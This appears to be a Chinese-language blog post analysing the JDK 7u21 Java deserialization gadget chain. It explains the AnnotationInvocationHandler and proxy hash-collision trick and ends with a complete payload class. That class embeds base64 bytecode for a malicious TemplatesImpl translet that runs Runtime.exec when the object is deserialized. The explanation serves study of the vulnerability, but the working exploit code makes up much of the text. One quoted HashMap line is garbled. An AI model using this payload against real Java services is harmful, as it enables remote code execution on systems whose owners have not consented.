





在Java 7u21之前,是存在无需第三方库,便能构造反序列化利用链


## 利用链

```
LinkedHashSet.readObject()
  LinkedHashSet.add()
    ...
      TemplatesImpl.hashCode() (X)
  LinkedHashSet.add()
    ...
      Proxy(Templates).hashCode() (X)
        AnnotationInvocationHandler.invoke() (X)
          AnnotationInvocationHandler.hashCodeImpl() (X)
            String.hashCode() (0)
            AnnotationInvocationHandler.memberValueHashCode() (X)
              TemplatesImpl.hashCode() (X)
      Proxy(Templates).equals()
        AnnotationInvocationHandler.invoke()
          AnnotationInvocationHandler.equalsImpl()
            Method.invoke()
              ...
                 // TemplatesImpl.getOutputProperties()，实际测试时会直接调用 newTransformer()
                  TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                      TemplatesImpl.defineTransletClasses()
                        ClassLoader.defineClass()
                        Class.newInstance()
                          ...
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```

后半段用的是TemplatesImpl,主要看前面

## AnnotationInvocationHandler

看到AnnotationInvocationHandler类中的equalsImpl方法


这里的getMemberMethods跟进去看看

它会获取this.type的所有方法



这里我们把this.type设置为Templates类，那么就一定能调用到其中的 newTransformer() 或 getOutputProperties()

方法，进而触发任意代码执行。

接下来去看一下哪里调用了`equalsImpl`方法,



接下来想想如何进入if语句就行,当方法名等于“equals”，且仅有一个Object类型参数时，会调用到 equalImpl 方法。

## HashSet



这里会调用map.put方法,map为一个HashMap

## HashMap

```java
 public V put(K key, V value) {
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);              //这里会计算我们传入key的hash值
        int i = indexFor(hash, table.length); //然后再table表中查找是否存在hash相同的值,只有找到了,才能进入后面的for循环
        for (Entry<K,V> e = table[i]; e != null; e = e.next) { 
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key. (k))) {//我们需要执行到这里的key.equals(k)            
                V oldValue = e.value;
                e.value = value;
                e.recordAccess(this);
                return oldValue;
            }
        }
      	modCount++;
        addEntry(hash, key, value, i);
        return null;
    }
```

这里的逻辑我在CC7中简单的说过。这里我们必须使K为TemplateImpl对象,key为我们的proxy对象。但是如果要满足这一条件,需要让我们的proxy对象的hash值算出来跟TemplateImpl的hash一样,这也是一个难点

```java
public static int hash(Object key) { 
    int h = 0; 
    h ^= key.hashCode();
    h ^= (h >>> 20) ^ (h >>> 12); 
    h = h ^ (h >>> 7) ^ (h >>> 4); 
    return h & 15; 
}
```

除了 key.hashCode() 外再没有其他变量，所以proxy对象与TemplateImpl对象的“哈希”是否相等，仅取决于这两个对象的 hashCode() 是否相等。TemplateImpl的 hashCode() 是一个Native方法，每次运行都会发生变化，我们理论上是无法预测的，所以想让proxy的 hashCode() 与之相等，只能寄希望于proxy.hashCode() 。 

在调用hashCode()方法的同时也会进入invoke方法,执行hashCodeImp方法



```java
for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
            var3 = (Entry)var2.next();
        }
```

遍历 memberValues 这个Map中的每个key和value，计算每个 (127 * key.hashCode()) ^ value.hashCode() 并求和。

JDK7u21中使用了一个非常巧妙的方法：

- 当 memberValues 中只有一个key和一个value时，该哈希简化成 (127 * key.hashCode()) ^ value.hashCode() 
- 当 key.hashCode() 等于0时，任何数异或0的结果仍是他本身，所以该哈希简化成value.hashCode() 
- 当 value 就是TemplateImpl对象时，这两个哈希就变成完全相等

所以，我们找到一个hashCode是0的对象作为 memberValues 的key，将恶意TemplateImpl对象作为value，这个proxy计算的hashCode就与TemplateImpl对象本身的hashCode相等了。

这里找到的是字符串"f5a5a608"

## 流程图



流程还是很简单的,但是其中细节挺多的。

> 首先我们需要在hashMap中加入两个key,第一个是TemplatesImpl类,第二个是proxy。
>
> 然后在HashSet#readObject中,会调用HashMap#put对两个key进行比较,先将第一个key的hash算出,放入table中,再计算第二个key,如果第二个key算出来的hash已存在在table表中,则会进入for循环然后调用proxy.equals(TemplatesImpl)

至于如何相等,就需要用到之前说的东西。那在找链子的时候为什么会莫名其妙选择到HashSet呢,p神是这样说的:

> 任意Java对象都拥有 equals 方法，它通常用于比较两个对象是否是同一个引用；而compareTo实际上
>
> 是 java.lang.Comparable 接口的方法，我在前一篇介绍 java.util.PriorityQueue 时也介绍过，通
>
> 常被实现用于比较两个对象的值是否相等。
>
> 所以，我第一时间想到使用 java.util.PriorityQueue ，但实际上其中用的是compareTo，而非
>
> equals。
>
> 另一个常见的会调用equals的场景就是集合set。set中储存的对象不允许重复，所以在添加对象的时
>
> 候，势必会涉及到比较操作。

这种思路还是很值得学习的

## payload

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.jboss.util.Base64;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        Map map = new HashMap();
        String magicStr = "f5a5a608";
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, map);
        setFieldValue(invocationHandler, "type", Templates.class);
        // value 先放入任意值，让 HashSet.add(proxy) 成功
        map.put(magicStr, "foo");

        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);
        TemplatesImpl obj = new TemplatesImpl();
        byte[] code= Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");
        setFieldValue(obj, "_bytecodes",
                new byte[][]{ code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashSet target = new LinkedHashSet();
        target.add(obj);
        target.add(proxy);
        // 放入实际的 value
        map.put(magicStr, obj);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(target);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

